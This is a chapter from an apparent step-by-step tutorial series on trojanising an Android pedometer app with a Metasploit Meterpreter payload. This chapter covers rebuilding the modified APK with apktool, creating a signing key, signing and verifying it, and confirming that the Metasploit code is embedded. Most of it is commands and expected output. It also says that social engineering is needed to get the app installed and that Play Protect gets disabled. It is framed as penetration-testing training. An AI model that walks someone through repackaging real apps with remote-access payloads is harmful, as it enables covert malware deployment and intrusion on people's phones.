

# Recompilation & Signing

After injecting the Meterpreter payload, the modified APK must be rebuilt and cryptographically signed to be installable on Android devices.

## Phase 1: Recompiling the APK

### Rebuild Command

apktool b original -o recompiled.apk

**Parameters:**
- `b` - Build mode
- `original` - Directory containing modified smali code
- `-o recompiled.apk` - Output APK filename

### Build Process

APKTool performs:
1. Converts smali code back to DEX bytecode
2. Packages resources (images, layouts, strings)
3. Compresses everything into APK format
4. Generates AndroidManifest.xml in binary format

**Expected output:**
I: Using Apktool 2.9.3
I: Checking whether sources has changed...
I: Smali files changed, rebuilding smali folder
I: Checking whether resources has changed...
I: Building resources...
I: Building apk file...
I: Copying unknown files/dir...
I: Built apk into: recompiled.apk

## Phase 2: Generating Signing Key

### Why Signing is Required

Android requires all APKs to be digitally signed:
- Verifies app integrity
- Prevents tampering after installation
- Required by Android Package Manager

### Keystore Generation

keytool -genkey -v -keystore my-release-key.keystore
-alias myalias
-keyalg RSA
-keysize 2048
-validity 10000

**Parameters explained:**
- `-keystore my-release-key.keystore` - Output keystore file
- `-alias myalias` - Key identifier (used during signing)
- `-keyalg RSA` - Encryption algorithm
- `-keysize 2048` - Key strength (2048-bit RSA)
- `-validity 10000` - Valid for ~27 years

**Keystore password:**
- Choose a strong password
- Record it securely (needed for signing)

## Phase 3: Signing the APK

### Signing Command

apksigner sign --ks my-release-key.keystore
--ks-key-alias myalias
--out final-signed.apk
recompiled.apk

**Parameters:**
- `--ks` - Keystore file path
- `--ks-key-alias` - Key alias from keystore
- `--out final-signed.apk` - Signed output file
- `recompiled.apk` - Unsigned input APK

**Password prompt:**
Enter the keystore password created in Phase 2.

### Signature Verification

apksigner verify final-signed.apk
echo "Exit code: $?"

**Expected output:**

Verified successfully
Exit code: 0

Exit code 0 confirms valid signature.

## Phase 4: Final APK Details

### File Comparison

ls -lh *.apk

**Typical sizes:**
- `pedometer.apk` (original) - ~2-5 MB
- `payload.apk` (msfvenom) - ~15 KB
- `recompiled.apk` (unsigned) - ~2-5 MB
- `final-signed.apk` (ready) - ~2-5 MB

Size increase is minimal (payload is lightweight).

### APK Contents

unzip -l final-signed.apk | grep -E "META-INF|smali|metasploit"

**Confirms:**
- META-INF/ directory (signature files)
- Metasploit smali code embedded
- All components packaged correctly

## Security Considerations

### Certificate Details

The self-signed certificate:
- **Not trusted by Google Play** (unsigned developer)
- **Triggers "Unknown sources" warning** on installation
- **Not detected as malicious** by signature alone (behavioral analysis needed)

### Real-World Implications

In penetration testing:
- Social engineering required for installation
- Users must enable "Install from Unknown Sources"
- Google Play Protect may flag the app (disable on test device)

## Troubleshooting

**Build errors:**
- Check smali syntax in modified files
- Verify AndroidManifest.xml is valid XML
- Ensure all resources referenced exist

**Signing errors:**
- Confirm keystore password is correct
- Check APKSigner is installed (`apt install apksigner`)
- Verify recompiled.apk exists and is not corrupted

---

**Next Step:** [06-deployment](../06-deployment/)

